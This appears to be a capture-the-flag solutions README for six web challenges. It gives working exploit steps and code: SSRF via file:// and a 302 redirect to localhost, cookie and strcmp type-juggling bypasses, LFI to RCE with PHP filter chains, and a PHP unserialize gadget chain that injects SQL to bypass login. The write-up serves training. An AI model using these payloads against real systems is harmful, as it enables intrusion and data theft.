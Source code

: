# Brief Solution

## web01

## web02
### Installation 🧑🏻‍💻
1. `composer require mpdf/mpdf`

### Step 🍿
Basically, this is just SSRF vulnerability. You can read any file by using `file://` protocol. Sure you can use other method, feel free to study new thing.
1. put this URL on searchbar `file:///var/www/html/flag.php`

## web03
1. Base 64 decode 2 times the cookie value.
2. Change the type to admin and encode again.
3. Exploit the type strcmp loose comparison  by changing password to password[] and get the flag.
## web04
1. user click on About and redirected to page.php?show=about.php
2. show parameter is vulnerable to local file inclusion
3. gain rce via [PHP filters](https://github.com/synacktiv/php_filter_chain_generator)
## web05
### Installation 🧑🏻‍💻
1. `docker-compose -d up`

### Step 🍿
This vulnerability is just the same as web02, but with little bit of filter. This system "generally" check given url:
- is an ip address
- does not request localhost directly
- has valid public url
- and does not have DNS rebinding attack (donno if my filter method works)
So basically we can bypass the filter using URL redirect(302). The idea is we will give valid and public domain, but the domain will redirect it back to localhost 😯.

***There are 3 methods you can use***
1. You can use URL shorterner and points it to `http://127.0.0.1:8081/flag` (only certains works)
2. You can use public domain for localhost testing `http://localtest.me:8081/flag`
3. Or more painfull but it good to understand how it works. 
  - Code below will redirect to `http://127.0.0.1:8081/flag`
```py
from flask import Flask,redirect

app = Flask(__name__)

@app.route("/")
def hello():
	return redirect("http://127.0.0.1:8081/flag")
```
  - spawn python server: `flask run --host=0.0.0.0 --port=1111`
  - spawn ngrok: `ngrok http 1111`
  - paste the url such as https://2025-2001-f40-933-46f6-ac06-5fb6-3208-9d5c.ap.ngrok.io/

## web06

The system passed user's input to `unserialize()` function without sanitization. User can control deserialize method to modify variable in classes to bypass login authentication. Thus, participant needs to create gadget chain( `ManageCookie{}`, `Auth{}`, `DBController{}` ) to control SQL statement in order to bypass auth.
### Step 🍿
1. run the code below.
```php
<?php

class DBController { }

class Auth {
    public $getTokenByUsernameQuery;
    protected $db_handle;

    function __construct() {
        $current_time = time();
        $cookie_expiration_time = $current_time + (30 * 24 * 60 * 60); // for 1 month
        $expiry_date = date("Y-m-d H:i:s", $cookie_expiration_time);

        $password_hash = password_hash("takKisahApaPun", PASSWORD_DEFAULT);
        $selector_hash = password_hash("tulatu", PASSWORD_DEFAULT);

        $this->getTokenByUsernameQuery = "SELECT ? as username, ? as is_expired, '{$password_hash}' as password_hash, '{$selector_hash}' as selector_hash, '{$expiry_date}' as expiry_date, 12 as id";
        $this->db_handle = new DBController();
    }
}

class ManageCookie {
    public $member_login = "ADMIN";
    public $random_password = "takKisahApaPun";
    public $random_selector = "tulatu";
    protected $auth;

    function __construct() {
        $this->auth = new Auth();
    }
}

$p = new ManageCookie();
$p = urlencode(base64_encode(serialize($p)));
echo $p;
```
2. Set "remember_user" cookie and refresh.

